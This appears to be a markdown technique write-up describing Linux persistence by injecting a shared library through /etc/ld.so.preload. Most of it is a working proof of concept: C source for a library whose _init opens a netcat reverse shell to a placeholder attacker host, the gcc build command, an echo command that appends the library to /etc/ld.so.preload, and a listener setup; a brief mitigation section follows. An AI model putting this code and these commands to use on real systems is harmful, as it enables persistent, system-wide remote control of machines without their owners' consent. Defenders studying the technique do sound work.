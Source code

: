 # Library Injection via ld.so.preload File 
A technique that uses /etc/ld.so.preload to inject custom libraries for code execution and persistence
### Description
This technique exploits the /etc/ld.so.preload file on Linux systems to achieve system-wide persistence by injecting a shared library that loads with every dynamically linked process. By adding a custom library path to /etc/ld.so.preload, attackers can execute arbitrary code whenever any new process is started. This technique leverages the dynamic linker (ld.so) to preload a specified library before standard libraries, making it effective for both privilege escalation and stealth operations.

When an application starts, the dynamic linker checks /etc/ld.so.preload and loads any libraries listed there, enabling custom code to run with the privileges of the calling process. Because /etc/ld.so.preload applies system-wide and requires root permissions to modify, it is often used by attackers with escalated privileges to maintain control over a compromised system. This can be leveraged to execute logging, monitoring, or malicious activities silently across reboots and user sessions.

## Detailed PoC (Proof of Concept)
Let's walk through the detailed steps of exploiting this technique. I'll break it down into phases: preparation, library creation, injection into /etc/ld.so.preload, and execution.

### Step 1: Understanding the Exploit
Objective: Gain persistence on a Linux system by injecting a malicious shared library through the /etc/ld.so.preload mechanism.
Mechanism: The dynamic linker (ld.so) checks the /etc/ld.so.preload file on system startup and loads any libraries listed there before loading the standard libraries. If an attacker can modify this file, they can insert a malicious library that runs arbitrary code when any process starts.
Step 2: Creating a Malicious Shared Library
First, you need to create a custom shared library that will be injected when a process starts. This library can contain malicious code, such as a reverse shell, a keylogger, or other persistent malware.

### Step 2: Creating a Malicious Shared Library
First, you need to create a custom shared library that will be injected when a process starts. This library can contain malicious code, such as a reverse shell, a keylogger, or other persistent malware.
Code for a Malicious Shared Library (example: reverse shell):
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void _init() {
    // The reverse shell payload: connects to an attacker-controlled IP and port
    const char *ip = "attacker_ip_here";  // Replace with attacker's IP
    const int port = 4444;                // Replace with desired port

    char command[128];
    snprintf(command, sizeof(command), "nc %s %d -e /bin/bash", ip, port);

    // Execute the reverse shell
    system(command);
}
```

Steps to compile the malicious shared library:

Save the above code into a file called reverse_shell.c.
Compile it into a shared library:
```bash
gcc -shared -fPIC -o reverse_shell.so reverse_shell.c
```
This creates the reverse_shell.so shared library, which will execute a reverse shell to the attacker's IP and port when any process is started.

### Step 3: Modifying /etc/ld.so.preload
Once the malicious shared library is compiled, the next step is to modify the /etc/ld.so.preload file to ensure that the malicious library is loaded system-wide whenever a process starts.

1. Check if /etc/ld.so.preload exists:

If the file already exists, you'll append your library path to it. If it doesn't exist, you’ll need to create it.

2. Gain root access:

Since modifying /etc/ld.so.preload requires root privileges, you’ll need to escalate privileges to root if not already done. This could be through an existing vulnerability, misconfiguration, or a privilege escalation exploit.

3. Modify /etc/ld.so.preload:

Assuming you've gained root access, you can modify /etc/ld.so.preload by appending the path of the malicious shared library:

echo "/path/to/reverse_shell.so" >> /etc/ld.so.preload
Make sure to replace /path/to/reverse_shell.so with the actual path to your malicious shared library.

### Step 4: Test the Exploit
At this point, the malicious library is set to be loaded every time any dynamically linked process starts. To test the exploit, simply start a new process. For example, try running:

ls
This will run the ls command, but because of the /etc/ld.so.preload file, the reverse shell library will be loaded first, and it will attempt to connect to the attacker's machine.

### Step 5: Set up Listener on Attacker's Machine
To receive the reverse shell, you need to set up a listener on the attacker's machine using Netcat (nc). On your attacker's machine:

nc -lvp 4444
Make sure that port 4444 (or whatever port you specified) is open and listening for connections.

### Step 6: Persistent Execution
Since /etc/ld.so.preload is applied system-wide, this technique will survive reboots and user logins as long as the malicious library remains in the specified path and /etc/ld.so.preload is not modified. This gives the attacker full persistence on the system.

### Step 7: Cleanup and Mitigation
To remove the malicious payload, you would simply need to:

Remove the entry from /etc/ld.so.preload:

sed -i '/reverse_shell.so/d' /etc/ld.so.preload
Delete the malicious shared library:

rm /path/to/reverse_shell.so
Restart the system or relaunch processes to ensure the payload is no longer injected.

# Additional Considerations and Mitigation
### Security Measures:

Restrict write access to /etc/ld.so.preload and other critical system files.
Use tools like SELinux, AppArmor, or other mandatory access control (MAC) systems to limit the impact of privilege escalation attacks.
Ensure that only trusted users can modify the system's library paths and execute dynamic binaries.
Regularly audit the /etc/ld.so.preload file to ensure there are no unauthorized entries.
Monitoring:

Set up monitoring for system changes to /etc/ld.so.preload to detect tampering.
Monitor network activity, particularly outgoing connections to detect suspicious reverse shell connections.

